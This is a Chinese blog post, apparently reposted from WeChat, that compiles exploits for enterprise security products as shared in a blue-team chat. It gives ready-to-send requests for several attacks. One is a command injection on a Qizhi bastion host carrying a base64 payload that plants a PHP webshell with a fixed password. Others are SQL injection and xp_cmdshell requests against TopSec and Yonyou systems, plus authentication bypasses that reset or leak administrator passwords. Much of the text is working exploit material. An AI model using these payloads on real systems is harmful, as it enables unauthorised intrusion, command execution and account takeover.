 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/AjPgq4RhKjgbX7STE3jWDg)

下午一觉醒来, 发现某蓝队群里正在讨论关于几个厂商的安全漏洞, 也分享到群了。

0、齐治堡垒机前台远程命令执行漏洞（CNVD-2019-20835）

未授权无需登录。

1、访问 http://10.20.10.11/listener/cluster\_manage.php  : 返回 "OK".

2、访问如下链接即可 getshell，执行成功后，生成 PHP 一句话马

3、/var/www/shterm/resources/qrcode/lbj77.php  密码 10086

```
https://10.20.10.10/ha\_request.php?action=install&ipaddr=10.20.10.11&node\_id=1${IFS}|\`echo${IFS}" ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}- d|bash\`|${IFS}|echo${IFS}

```

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicE8UEGQJf3VVPU2ia5LUic9mXWTdoiahWDSITepRuyI9wiaxRkN4SbJCGuMw/640?wx_fmt=png)

这里假设 10.20.10.10 为堡垒机的 IP 地址。  

1、天融信 TopApp-LB 负载均衡系统 Sql 注入漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicE5AW12sTdkdtvHSEv3NVLFuWUKYIIb0hpMUGvsbb6RAdN5vU7UvlL3A/640?wx_fmt=png)

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, \*/\*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_15\_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r\_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。

```

网友称以下两个历史漏洞仍然可以复现。

https://www.uedbox.com/post/21626/

https://www.uedbox.com/post/22193/

2、用友 GRP-u8 注入

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicEYiaZjXJQic5ic25SpakRvPOZJQSE1R9xsico6E92XYHIMHVRLWVFfDdKyg/640?wx_fmt=png)

```
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 341
Connection: Keep-Alive
Cache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS\_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp\_cmdshell 'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>

```

3、绿盟 UTS 综合威胁探针管理员任意登录

逻辑漏洞, 利用方式参考（https://www.hackbug.net/archives/112.html）

1、修改登录数据包 {"status":false,"mag":""} -> {"status":true,"mag":""}

2、/webapi/v1/system/accountmanage/account 接口逻辑错误泄漏了管理员的账户信息包括密码（md5）

3、再次登录, 替换密码上个数据包中 md5 密码。

4、登录成功。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicEs9o9BvmL5xm2ODFNYQicqVI8BO6ZyckvKNL39riajCVzArUBJgASE76Q/640?wx_fmt=png)

4、天融信数据防泄漏系统越权修改管理员密码

无需登录权限, 由于修改密码处未校验原密码, 且 /?module=auth\_user&action=mod\_edit\_pwd

接口未授权访问, 造成直接修改任意用户密码。: 默认 superman 账户 uid 为 1。

POST /?module=auth\_user&action=mod\_edit\_pwd 

Cookie: username=superman;

uid=1&pd=Newpasswd&mod\_pwd=1&dlp\_perm=1

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7T9XJ4Tib6MVshTVmOUYpcicEicDtbmCPyGaxwDO9slR2fhhrd01rFkOuQM0f9oVjyuHerVu4Aiav5BQQ/640?wx_fmt=png)

5、WPS Office 图片解析错误导致堆损坏，任意代码执行。

看上去 (算了看不懂... , 漏洞利用可能导致拒绝服务。

相关参考:

http://zeifan.my/security/rce/heap/2020/09/03/wps-rce-heap.html

以上内容均为网友分享, 作者并未实际复现。
